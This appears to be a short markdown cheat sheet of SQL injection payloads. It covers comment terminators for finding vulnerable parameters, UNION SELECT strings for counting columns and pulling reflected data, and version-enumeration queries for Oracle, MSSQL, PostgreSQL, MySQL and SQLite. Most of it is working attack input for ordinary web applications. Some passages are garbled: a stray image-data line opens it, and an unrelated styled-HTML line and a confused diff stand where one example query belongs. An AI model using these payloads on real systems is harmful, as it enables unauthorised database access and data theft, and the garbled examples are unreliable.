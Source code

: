 # Entry point
if the response is unchanged after one of these payloads - the parameter might be vulnerable to SQLi.

Oracle / MSSQL / PostgreSQL / MySQL / SQLite
```
 -- 
' -- 
" -- 
 /*
' /* 
" /* 
```
MySQL
```
 # 
' # 
" # 
```
example query: SELECT role,fullname FROM users WHERE id='1' # '
# UNION attack
if data is returned in the response, the database can be enumerated using a union attack.
in this case, the first step is to figure out how many columns are returned by the query.
personally I like to supply an id or a username that does not exist so no row is returned,
and then unioning a row of my choice until it is returned by the application:
```
-1' UNION SELECT 1; # 
-1' UNION SELECT 1,2: # 
-1' UNION SELECT 1,2,3; # and so on ...
```
after some of the numbers we supplied are reflected in the response, we can replace them with
other builtin methods and attributes to further enumerate the database.

example query:
This text is <style>color:red</style>red.


```diff
+ SELECT name,issue_date,valid_until FROM tickets WHERE ticket_id="
- 1" UNION SELECT 1,2,3 /*
+ "
```
# Version enumeration

PostgreSQL / MySQL / MariaDB
```
SELECT version()
```
MSSQL / MySQL
```
SELECT @@version
```
SQLite
```
SELECT sqlite_version()
```
Oracle
```
SELECT banner FROM v$version
SELECT version FROM v$instance
```
